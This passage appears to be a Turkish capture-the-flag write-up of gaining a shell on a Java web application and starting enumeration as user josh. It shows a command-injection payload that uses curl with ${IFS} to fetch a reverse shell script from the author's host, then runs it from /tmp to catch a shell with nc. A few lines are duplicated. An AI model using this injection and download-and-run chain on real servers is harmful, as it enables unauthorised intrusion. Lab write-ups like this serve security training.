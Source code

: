 
### Shell
Java uygulamaları işlemlerde piping ve özel karakterler konusunda çok zorlayıcı olabiliyor, bu yüzden diske bir Bash script yazıp çalıştırmak gibi basit bir yol izleyeceğim. Lokal olarak rev.sh adında bir reverse shell script oluşturacağım:
![Pasted image 20241017011220.png](/img/user/resimler/Pasted%20image%2020241017011220.png)

Daha hızlı göndermek için isteklerimi Burp Repeater'a geçireceğim. Sunucumdan rev.sh dosyasını almak için curl kullanacağım:
![Pasted image 20241017011349.png](/img/user/resimler/Pasted%20image%2020241017011349.png)

Ama yanıtta bir hata var:
%3bcurl${IFS}http://10.10.14.3/rev.sh${IFS}-o${IFS}rev.sh
![Pasted image 20241017011527.png](/img/user/resimler/Pasted%20image%2020241017011527.png)
![Pasted image 20241017011536.png](/img/user/resimler/Pasted%20image%2020241017011536.png)
Ama yanıtta bir hata var:
![Pasted image 20241017011555.png](/img/user/resimler/Pasted%20image%2020241017011555.png)

Eğer /tmp/rev.sh dosyasına taşırsam, çalışıyor gibi görünüyor:

![Pasted image 20241017011627.png](/img/user/resimler/Pasted%20image%2020241017011627.png)

![Pasted image 20241017011659.png](/img/user/resimler/Pasted%20image%2020241017011659.png)

bash /tmp/rev.sh dosyasını çalıştırmak için başka bir istek göndereceğim:

![Pasted image 20241017011844.png](/img/user/resimler/Pasted%20image%2020241017011844.png)

![Pasted image 20241017011852.png](/img/user/resimler/Pasted%20image%2020241017011852.png)

Script tekniğini kullanarak shell'imi yükselteceğim:
 --> https://www.youtube.com/watch?v=DqE6DxqJg8Q

İstek askıda kalıyor, ancak dinlediğim nc'de bir shell var:

Komut dosyası tekniğini kullanarak kabuğumu yükselteceğim:

![Pasted image 20241017012114.png](/img/user/resimler/Pasted%20image%2020241017012114.png)

### Shell as josh
Enumeration
Web Uygulaması
Web uygulaması, bir Java Jar dosyası içeren /app dışında çalışmaktadır:
![Pasted image 20241017012418.png](/img/user/resimler/Pasted%20image%2020241017012418.png)

Jar çalışıyor:
![Pasted image 20241017012445.png](/img/user/resimler/Pasted%20image%2020241017012445.png)

Bu proses 8080'i dinliyor:
![Pasted image 20241017012608.png](/img/user/resimler/Pasted%20image%2020241017012608.png)
